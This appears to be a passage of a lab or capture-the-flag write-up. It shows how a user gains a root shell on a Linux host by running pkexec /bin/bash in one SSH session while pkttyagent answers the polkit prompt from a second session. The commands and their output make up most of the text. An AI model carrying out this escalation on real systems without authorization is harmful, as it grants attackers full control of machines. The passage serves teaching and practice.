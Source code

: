 #### `pkexec` allows an authorized user to execute commands as another user.

#### We could have used `pkexec /bin/bash` to spawn a shell as root.

#### We needed to create two `SSH` connections as user.

. On the first SSH session
```
echo $$
2178 (pid)
```  
. second SSH session
```
pkttyagent -p 2178 (pid)
```

. first SSH session
```
pkexec /bin/bash
```

. second SSH session
```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: user
Password:

==== AUTHENTICATION COMPLETE ===
Connection to 10.10.66.240 closed by remote host.
```
. first SSH session
```
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
